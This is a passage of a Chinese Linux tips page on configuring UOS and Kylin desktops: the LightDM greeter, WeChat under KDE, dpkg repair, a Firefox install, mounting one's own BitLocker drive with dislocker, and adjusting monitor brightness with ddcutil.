<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line">首先：</span><br><span class="line">sudo apt install lightdm-gtk-greeter</span><br><span class="line">然后：</span><br><span class="line">sudo nano /etc/lightdm/lightdm.conf</span><br><span class="line">[SeatDefaults]</span><br><span class="line"><span class="attribute">autologin-user</span>=user</span><br><span class="line"><span class="comment"># 修改下面这一行</span></span><br><span class="line"><span class="attribute">greeter-session</span>=lightdm-gtk-greeter</span><br><span class="line"><span class="comment"># 重启搞定</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 更换锁屏(比如使用i3)：</span></span><br><span class="line">i3lock -f -i /图片/BGP/1080.png</span><br></pre></td></tr></table></figure>
<h4 id="Linux微信"><a href="#Linux微信" class="headerlink" title="Linux微信"></a>Linux微信</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">【国产系统】史诗级更新Linux 微信wechat-beta_1<span class="number">.0</span><span class="number">.0</span><span class="number">.150</span>（快来还热乎）</span><br><span class="line">https:<span class="comment">//www.52pojie.cn/thread-1896902-1-1.html</span></span><br></pre></td></tr></table></figure>
<h4 id="KDE桌面下无法使用DDE-Wine微信的问题"><a href="#KDE桌面下无法使用DDE-Wine微信的问题" class="headerlink" title="KDE桌面下无法使用DDE Wine微信的问题"></a>KDE桌面下无法使用DDE Wine微信的问题</h4><p>启动<code>gnome-settings-daemon</code>即可（<code>sudo apt install gnome-settings-daemon</code>）。在<code>~/.config/autostart</code>新建<code>org.gnome.SettingsDaemon.XSettings.desktop</code>写入：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Desktop Entry]</span></span><br><span class="line"><span class="attr">Type</span>=Application</span><br><span class="line"><span class="attr">Name</span>=GNOME XSettings</span><br><span class="line"><span class="attr">Exec</span>=/usr/libexec/gsd-xsettings</span><br><span class="line"><span class="comment"># OnlyShowIn=GNOME;</span></span><br><span class="line"><span class="attr">NoDisplay</span>=<span class="literal">true</span></span><br><span class="line"><span class="comment"># X-GNOME-Autostart-Phase=Initialization</span></span><br><span class="line"><span class="comment"># X-GNOME-Autostart-Notify=true</span></span><br><span class="line"><span class="comment"># X-GNOME-AutoRestart=true</span></span><br><span class="line"><span class="comment"># X-GNOME-HiddenUnderSystemd=true</span></span><br></pre></td></tr></table></figure>
<p>最后在KDE设置中的<code>系统设置&gt;开机和关机&gt;自动启动</code>选项中允许自启动即可。</p>
<h4 id="KDE桌面下刚开机总是出现dde-preload的终端"><a href="#KDE桌面下刚开机总是出现dde-preload的终端" class="headerlink" title="KDE桌面下刚开机总是出现dde-preload的终端"></a>KDE桌面下刚开机总是出现<code>dde-preload</code>的终端</h4><p>解决原理：找到<code>dde-preload</code>开机启动文件（<code>/etc/xdg/autostart</code>），末尾加<code>&amp;</code>即可。</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Desktop Entry]</span></span><br><span class="line"><span class="attr">Name</span>=dde-preload</span><br><span class="line"><span class="comment"># Exec=/usr/bin/dde-preload</span></span><br><span class="line"><span class="attr">Exec</span>=/usr/bin/dde-preload&amp;</span><br><span class="line"><span class="attr">NoDisplay</span>=<span class="literal">true</span></span><br><span class="line"><span class="attr">Terminal</span>=flase</span><br><span class="line"><span class="attr">Type</span>=Application</span><br></pre></td></tr></table></figure>
<h4 id="银河麒麟：E-软件包-kylin-activation-需要重新安装，但是我无法找到相应的安装文件。"><a href="#银河麒麟：E-软件包-kylin-activation-需要重新安装，但是我无法找到相应的安装文件。" class="headerlink" title="银河麒麟：E: 软件包 kylin-activation 需要重新安装，但是我无法找到相应的安装文件。"></a>银河麒麟：E: 软件包 kylin-activation 需要重新安装，但是我无法找到相应的安装文件。</h4><figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line">正在读取状态信息... 完成       </span><br><span class="line">E: 软件包 kylin-activation 需要重新安装，但是我无法找到相应的安装文件。</span><br><span class="line">                                                                                                                                        </span><br><span class="line">┌──(admin㉿kylin-<span class="keyword">pc</span>)-[~]</span><br><span class="line">└─$ sudo dpkg --<span class="built_in">remove</span> --force-<span class="built_in">remove</span>-reinstreq                                                                                   <span class="number">127</span> ⨯</span><br><span class="line">dpk<span class="variable">g:</span> 错误: --<span class="built_in">remove</span> 需要至少一个软件包名作为参数</span><br><span class="line"></span><br><span class="line">输入 dpkg --<span class="keyword">help</span> 可获得安装和卸载软件包的有关帮助 [*]；</span><br><span class="line">使用 apt 或是 aptitude 就能在友好的界面下管理软件包；</span><br><span class="line">输入 dpkg -Dhelp 可看到 dpkg 除错标志的值的列表；</span><br><span class="line">输入 dpkg --force-<span class="keyword">help</span> 可获得所有强制操作选项的列表；</span><br><span class="line">输入 dpkg-<span class="keyword">deb</span> --<span class="keyword">help</span> 可获得有关操作 *.<span class="keyword">deb</span> 文件的帮助；</span><br><span class="line"></span><br><span class="line">带有 [*] 的选项将会输出较大篇幅的文字 - 可使用管道将其输出连接到 less 或 more ！</span><br><span class="line">                                                                                                                                        </span><br><span class="line">┌──(admin㉿kylin-<span class="keyword">pc</span>)-[~]</span><br><span class="line">└─$ sudo dpkg --<span class="built_in">remove</span> --force-<span class="built_in">remove</span>-reinstreq kylin-activation                                                                    <span class="number">2</span> ⨯</span><br><span class="line">dpk<span class="variable">g:</span> 警告: 由于开启了 --force 选项，以下问题被忽略：</span><br><span class="line">dpk<span class="variable">g:</span> 警告: 该软件包现在的状态极为不妥；</span><br><span class="line">建议您在卸载它之前再重新安装一次</span><br><span class="line">(正在读取数据库 ... 系统当前共安装有 <span class="number">257654</span> 个文件和目录。)</span><br><span class="line">正在卸载 kylin-activation (<span class="number">1.3</span>.<span class="number">11.1</span>-<span class="number">0</span>k1.<span class="number">3</span>) ...</span><br></pre></td></tr></table></figure>
<h4 id="UOS文件管理器nautilus添加模板文件"><a href="#UOS文件管理器nautilus添加模板文件" class="headerlink" title="UOS文件管理器nautilus添加模板文件"></a>UOS文件管理器nautilus添加模板文件</h4><p>放到<code>~/.Templates</code>文件夹中即可。</p>
<h4 id="银河麒麟火狐浏览器打不开Github搜索框"><a href="#银河麒麟火狐浏览器打不开Github搜索框" class="headerlink" title="银河麒麟火狐浏览器打不开Github搜索框"></a>银河麒麟火狐浏览器打不开Github搜索框</h4><figure class="highlight llvm"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br></pre></td><td class="code"><pre><span class="line">原因：火狐浏览器版本太久</span><br><span class="line">参考：https://github.com/orgs/community/discussions/<span class="number">103255</span></span><br><span class="line">解决：安装新版本火狐：</span><br><span class="line">https://support.mozilla.org/zh-CN/kb/install-firefox-linux?_gl=<span class="number">1</span>*<span class="number">1</span>rkkl<span class="number">6</span>i*_ga*MTk<span class="number">2</span>NjcwNjQ<span class="number">1</span>N<span class="keyword">i4</span>xNzAzNDY<span class="number">5</span>OTY<span class="number">1</span>*_ga_MQ<span class="number">7767</span>QQQW*MTcwOTY<span class="number">5</span>MDM<span class="number">5</span>N<span class="keyword">i4</span>yLjEuMTcwOTY<span class="number">5</span>MTY<span class="number">1</span>OC<span class="number">4</span>wLjAuMA..#w_install-firefox-deb-package-for-debian-based-distributions</span><br><span class="line"></span><br><span class="line">以华为麒麟<span class="number">990</span> arm<span class="number">64</span>为例：</span><br><span class="line">https://www.mozilla.org/firefox/linux/?utm_medium=referral&amp;utm_source=support.mozilla.org</span><br><span class="line">或者</span><br><span class="line">https://www.mozilla.org/zh-CN/firefox/all/#product-desktop-<span class="keyword">release</span></span><br><span class="line">下载压缩包</span><br><span class="line"></span><br><span class="line">tar xjf firefox-*.tar.bz<span class="number">2</span></span><br><span class="line">sudo mv firefox /opt</span><br><span class="line">sudo ln -s /opt/firefox/firefox /usr/local/bin/firefox</span><br><span class="line">sudo wget https://raw.githubusercontent.com/mozilla/sumo-kb/main/install-firefox-linux/firefox.desktop -P /usr/local/share/applications</span><br><span class="line"></span><br><span class="line">或者自己写Desktop文件:</span><br><span class="line">[Desktop Entry]</span><br><span class="line">Version=<span class="number">1.0</span></span><br><span class="line">Name=Firefox Web Browser</span><br><span class="line">Comment=Browse the World Wide Web</span><br><span class="line">GenericName=Web Browser</span><br><span class="line">Keywords=Internet<span class="comment">;WWW;Browser;Web;Explorer</span></span><br><span class="line"><span class="comment">Exec=firefox %u</span></span><br><span class="line"><span class="comment">Terminal=false</span></span><br><span class="line"><span class="comment">X-MultipleArgs=false</span></span><br><span class="line"><span class="comment">Type=Application</span></span><br><span class="line"><span class="comment">Icon=/opt/firefox/browser/chrome/icons/default/default128.png</span></span><br><span class="line"><span class="comment">Categories=GNOME;GTK;Network;WebBrowser;</span></span><br><span class="line"><span class="comment">MimeType=text/html;text/xml;application/xhtml+xml;application/xml;application/rss+xml;application/rdf+xml;image/gif;image/jpeg;image/png;x-scheme-handler/http;x-scheme-handler/https;x-scheme-handler/ftp;x-scheme-handler/chrome;video/webm;application/x-xpinstall;</span></span><br><span class="line"><span class="comment">StartupNotify=true</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">排除故障：https://support.mozilla.org/zh-CN/kb/%E4%BD%BF%E7%94%A8%E6%95%85%E9%9A%9C%E6%8E%92%E9%99%A4%E4%BF%A1%E6%81%AF%E9%A1%B5%E9%9D%A2%E6%9D%A5%E5%B8%AE%E5%8A%A9%E8%A7%A3%E5%86%B3Firefox%E7%9A%84%E9%97%AE%E9%A2%98</span></span><br></pre></td></tr></table></figure>
<h4 id="UOS打开Bitlocker"><a href="#UOS打开Bitlocker" class="headerlink" title="UOS打开Bitlocker"></a>UOS打开Bitlocker</h4><figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">UOS的APT仓库中的dislocker版本过低，需要：v0.<span class="number">7.3</span></span><br><span class="line">git clone http<span class="variable">s:</span>//github.<span class="keyword">com</span>/Aorimn/dislocker</span><br><span class="line">sudo apt install gcc cmake <span class="keyword">make</span> libfuse-dev libmbedtls-dev <span class="keyword">ruby</span>-dev</span><br><span class="line"><span class="keyword">cd</span> dislocker</span><br><span class="line">cmake .</span><br><span class="line"><span class="keyword">make</span></span><br><span class="line">sudo <span class="keyword">make</span> install</span><br></pre></td></tr></table></figure>
<p>自动寻找bitlocker磁盘挂载(示例代码)</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"><span class="comment"># 关闭执行控制功能状态：</span></span><br><span class="line"><span class="comment"># sudo setstatus -f exectl off</span></span><br><span class="line"><span class="comment"># setstatus -p softmode</span></span><br><span class="line"><span class="comment"># 开机自动挂载需要修改fstab（修改前记得备份！）</span></span><br><span class="line"><span class="comment"># &lt;partition&gt; /media/bitlocker fuse.dislocker user-password=&lt;password&gt;,nofail 0 0</span></span><br><span class="line"><span class="comment"># /media/bitlocker/dislocker-file /media/bitlockermount auto nofail 0 0</span></span><br><span class="line"></span><br><span class="line"><span class="comment">## 检查命令是否安装dislocker、fuse</span></span><br><span class="line">cmdToCheck=<span class="string">"dislocker"</span></span><br><span class="line"><span class="keyword">if</span> ! [ -x <span class="string">"<span class="variable">$(command -v "$cmdToCheck")</span>"</span> ]; <span class="keyword">then</span></span><br><span class="line">    <span class="built_in">echo</span> <span class="string">"Error: "</span><span class="variable">$cmdToCheck</span><span class="string">" is not installed."</span> &gt;&amp;2</span><br><span class="line">    sudo apt install <span class="string">"<span class="variable">$cmdToCheck</span>"</span> -y</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">    <span class="built_in">echo</span> <span class="string">"Command found! : "</span><span class="variable">$cmdToCheck</span><span class="string">""</span> &gt;&amp;1</span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line">cmdToCheck=<span class="string">"fusermount"</span></span><br><span class="line"><span class="keyword">if</span> ! [ -x <span class="string">"<span class="variable">$(command -v "$cmdToCheck")</span>"</span> ]; <span class="keyword">then</span></span><br><span class="line">    <span class="built_in">echo</span> <span class="string">"Error: "</span><span class="variable">$cmdToCheck</span><span class="string">" is not installed."</span> &gt;&amp;2</span><br><span class="line">    sudo apt install <span class="string">"<span class="variable">$cmdToCheck</span>"</span> -y</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">    <span class="built_in">echo</span> <span class="string">"Command found! : "</span><span class="variable">$cmdToCheck</span><span class="string">""</span> &gt;&amp;1</span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"><span class="comment">## 获取Bitlocker加密分区</span></span><br><span class="line">puid=<span class="string">"4463e4a8-296b-4db9-aa4d-7c83c762665e"</span></span><br><span class="line"><span class="comment"># /dev/sdb4: TYPE="BitLocker" PARTUUID="4463e4a8-296b-4db9-aa4d-7c83c762665e"</span></span><br><span class="line">pinfo=`sudo blkid | grep <span class="string">"<span class="variable">$puid</span>"</span>`</span><br><span class="line">tempArgs=(<span class="variable">$pinfo</span>)</span><br><span class="line"><span class="comment"># /dev/sdb4:</span></span><br><span class="line">tempArgs=<span class="variable">$&#123;tempArgs[0]&#125;</span></span><br><span class="line"><span class="comment"># /dev/sdb4</span></span><br><span class="line">pdev=<span class="variable">$&#123;tempArgs::-1&#125;</span></span><br><span class="line"><span class="built_in">echo</span> <span class="string">"Get Bitlocker Part: "</span><span class="variable">$pdev</span><span class="string">"."</span></span><br><span class="line"><span class="comment">## 新建文件夹（挂载文件夹）</span></span><br><span class="line">dislockMount=<span class="string">"/home/bitlocker"</span></span><br><span class="line"><span class="keyword">if</span> [ ! -d <span class="string">"<span class="variable">$dislockMount</span>"</span> ];<span class="keyword">then</span></span><br><span class="line">  sudo mkdir -p <span class="string">"<span class="variable">$dislockMount</span>"</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"><span class="comment"># 可访问的挂载点</span></span><br><span class="line">readMount=<span class="string">"/media/bitlockermount"</span></span><br><span class="line"><span class="keyword">if</span> [ ! -d <span class="string">"<span class="variable">$readMount</span>"</span> ];<span class="keyword">then</span></span><br><span class="line">  sudo mkdir -p <span class="string">"<span class="variable">$readMount</span>"</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"><span class="comment">## 开始挂载</span></span><br><span class="line">sudo dislocker <span class="string">"<span class="variable">$pdev</span>"</span> -u -- <span class="string">"<span class="variable">$dislockMount</span>"</span></span><br><span class="line"><span class="comment"># 下一个命令是把解密好的分区挂在到bitlockermount loop:用来把一个文件当成硬盘分区挂接上系统</span></span><br><span class="line">sudo mount -o loop <span class="string">"<span class="variable">$dislockMount</span>"</span>/dislocker-file <span class="string">"<span class="variable">$readMount</span>"</span></span><br><span class="line"><span class="built_in">echo</span> <span class="string">"Launched."</span></span><br><span class="line"><span class="built_in">echo</span> <span class="string">"Use below to unmount."</span></span><br><span class="line"><span class="built_in">echo</span> <span class="string">""</span></span><br><span class="line"><span class="built_in">echo</span> <span class="string">"sudo umount "</span><span class="variable">$dislockMount</span><span class="string">""</span></span><br><span class="line"><span class="built_in">echo</span> <span class="string">""</span></span><br></pre></td></tr></table></figure>
<p>卸载：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"><span class="comment"># 取消挂载/home/bitlocker</span></span><br><span class="line">sudo umount /media/bitlockermount</span><br><span class="line">sleep 1</span><br><span class="line">sudo umount /home/bitlocker</span><br></pre></td></tr></table></figure>
<h4 id="银河麒麟命令行调整屏幕亮度"><a href="#银河麒麟命令行调整屏幕亮度" class="headerlink" title="银河麒麟命令行调整屏幕亮度"></a>银河麒麟命令行调整屏幕亮度</h4><blockquote>
<p><a href="https://wiki.archlinuxcn.org/wiki/%E8%83%8C%E5%85%89" target="_blank" rel="noopener">https://wiki.archlinuxcn.org/wiki/%E8%83%8C%E5%85%89</a><br><a href="https://ubuntukylin.com/news/1763-cn.html" target="_blank" rel="noopener">https://ubuntukylin.com/news/1763-cn.html</a></p>
</blockquote>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">如果用xrandr调整亮度无效的话，试着用ddcutil</span></span><br><span class="line"><span class="string">需要注意的是：</span></span><br><span class="line"><span class="string">●</span>  <span class="string">ddcutil不支持笔记本显示器，因为笔记本显示设备是通过特殊的API进行控制的，并非I2C。</span></span><br><span class="line"><span class="string">●</span>  <span class="string">一般来说，ddcutil可以在虚拟机中构建，但不会在虚拟机中运行，这是因为虚拟视频驱动中没有实现I2C。当然，如果虚拟机连接到一个单独的视频卡，并且在passthru模式下运行该视频卡的非虚拟化驱动程序，那么ddcutil将可以正常工作。</span></span><br><span class="line"><span class="string">●</span>  <span class="string">Nvidia的专有视频驱动程序可能需要特殊配置才可正常运行ddcutil。</span></span><br><span class="line"><span class="string">●</span>  <span class="string">不同的显示器在DDC实施方面具有差异性，因此部分信息是否存在或有效将取决于该显示器，比较常见的缺陷是缺少序列号。</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 该命令可查看主机与显⽰器是否正常建立了通信，可以获取到显示器的I2C总线号、序列号等信息。当有多个显示器时，可以添加--async参数，提高检测效率</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">detect</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 然后查看显示功能是否支持亮度调节</span></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">capabilities</span> <span class="string">|</span> <span class="string">grep</span> <span class="string">"Feature: 10"</span></span><br><span class="line"><span class="attr">stdout:   Feature:</span> <span class="number">10</span> <span class="string">(Brightness)</span></span><br><span class="line"></span><br><span class="line"><span class="string">sudo</span> <span class="string">ddcutil</span> <span class="string">capabilities</span>                                               <span class="number">1</span> <span class="string">⨯</span></span><br><span class="line"><span class="attr">Model:</span> <span class="string">RTK</span></span><br><span class="line"><span class="attr">MCCS version:</span> <span class="number">2.2</span></span><br><span class="line"><span class="attr">Commands:</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="number">01</span> <span class="string">(VCP</span> <span class="string">Request)</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="number">02</span> <span class="string">(VCP</span> <span class="string">Response)</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="number">03</span> <span class="string">(VCP</span> <span class="string">Set)</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="number">07</span> <span class="string">(Timing</span> <span class="string">Request)</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="string">0c</span> <span class="string">(Save</span> <span class="string">Settings)</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="string">e3</span> <span class="string">(Capabilities</span> <span class="string">Reply)</span></span><br><span class="line">   <span class="attr">Command:</span> <span class="string">f3</span> <span class="string">(Capabilities</span> <span class="string">Request)</span></span><br><span class="line"><span class="attr">VCP Features:</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">02</span> <span class="string">(New</span> <span class="string">control</span> <span class="string">value)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">04</span> <span class="string">(Restore</span> <span class="string">factory</span> <span class="string">defaults)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">05</span> <span class="string">(Restore</span> <span class="string">factory</span> <span class="string">brightness/contrast</span> <span class="string">defaults)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">06</span> <span class="string">(Restore</span> <span class="string">factory</span> <span class="string">geometry</span> <span class="string">defaults)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">08</span> <span class="string">(Restore</span> <span class="string">color</span> <span class="string">defaults)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">0B</span> <span class="string">(Color</span> <span class="string">temperature</span> <span class="string">increment)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">0C</span> <span class="string">(Color</span> <span class="string">temperature</span> <span class="string">request)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">10</span> <span class="string">(Brightness)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">12</span> <span class="string">(Contrast)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">14</span> <span class="string">(Select</span> <span class="string">color</span> <span class="string">preset)</span></span><br><span class="line">      <span class="attr">Values:</span></span><br><span class="line">         <span class="attr">01:</span> <span class="string">sRGB</span></span><br><span class="line">         <span class="attr">02:</span> <span class="string">Display</span> <span class="string">Native</span></span><br><span class="line">         <span class="attr">04:</span> <span class="number">5000</span> <span class="string">K</span></span><br><span class="line">         <span class="attr">05:</span> <span class="number">6500</span> <span class="string">K</span></span><br><span class="line">         <span class="attr">06:</span> <span class="number">7500</span> <span class="string">K</span></span><br><span class="line">         <span class="attr">08:</span> <span class="number">9300</span> <span class="string">K</span></span><br><span class="line">         <span class="attr">0b:</span> <span class="string">User</span> <span class="number">1</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">16</span> <span class="string">(Video</span> <span class="attr">gain:</span> <span class="string">Red)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">18</span> <span class="string">(Video</span> <span class="attr">gain:</span> <span class="string">Green)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">1A</span> <span class="string">(Video</span> <span class="attr">gain:</span> <span class="string">Blue)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">52</span> <span class="string">(Active</span> <span class="string">control)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">60</span> <span class="string">(Input</span> <span class="string">Source)</span></span><br><span class="line">      <span class="attr">Values:</span></span><br><span class="line">         <span class="attr">01:</span> <span class="string">VGA-1</span></span><br><span class="line">         <span class="attr">03:</span> <span class="string">DVI-1</span></span><br><span class="line">         <span class="attr">04:</span> <span class="string">DVI-2</span></span><br><span class="line">         <span class="attr">0f:</span> <span class="string">DisplayPort-1</span></span><br><span class="line">         <span class="attr">10:</span> <span class="string">DisplayPort-2</span></span><br><span class="line">         <span class="attr">11:</span> <span class="string">HDMI-1</span></span><br><span class="line">         <span class="attr">12:</span> <span class="string">HDMI-2</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="number">87</span> <span class="string">(Sharpness)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">AC</span> <span class="string">(Horizontal</span> <span class="string">frequency)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">AE</span> <span class="string">(Vertical</span> <span class="string">frequency)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">B2</span> <span class="string">(Flat</span> <span class="string">panel</span> <span class="string">sub-pixel</span> <span class="string">layout)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">B6</span> <span class="string">(Display</span> <span class="string">technology</span> <span class="string">type)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">C6</span> <span class="string">(Application</span> <span class="string">enable</span> <span class="string">key)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">C8</span> <span class="string">(Display</span> <span class="string">controller</span> <span class="string">type)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">CA</span> <span class="string">(OSD/Button</span> <span class="string">Control)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">CC</span> <span class="string">(OSD</span> <span class="string">Language)</span></span><br><span class="line">      <span class="attr">Values:</span></span><br><span class="line">         <span class="attr">01:</span> <span class="string">Chinese</span> <span class="string">(traditional,</span> <span class="string">Hantai)</span></span><br><span class="line">         <span class="attr">02:</span> <span class="string">English</span></span><br><span class="line">         <span class="attr">03:</span> <span class="string">French</span></span><br><span class="line">         <span class="attr">04:</span> <span class="string">German</span></span><br><span class="line">         <span class="attr">06:</span> <span class="string">Japanese</span></span><br><span class="line">         <span class="attr">0a:</span> <span class="string">Spanish</span></span><br><span class="line">         <span class="attr">0d:</span> <span class="string">Chinese</span> <span class="string">(simplified</span> <span class="string">/</span> <span class="string">Kantai)</span></span><br><span class="line">   <span class="attr">Feature:</span> <span class="string">D6</span> <span class="string">(Power</span> <span class="string">mode)</span></span><br><span class="line">      <span class="attr">Values:</span></span><br><span class="line">         <span class="attr">01: DPM:</span> <span class="string">On,</span>  <span class="attr">DPMS:</span> <span class="string">Off</span></span><br><span class="line">         <span class="attr">04: DPM:</span> <span class="string">Off,</span> <span class="attr">DPMS:</span> <span class="string">Off</span></span><br><span class="line">         <span class="attr">05:</span> <span class="string">Write</span> <span class="string">only</span> <span class="string">value</span> <span class="string">to</span> <span class="string">turn</span> <span class="string">off</span> 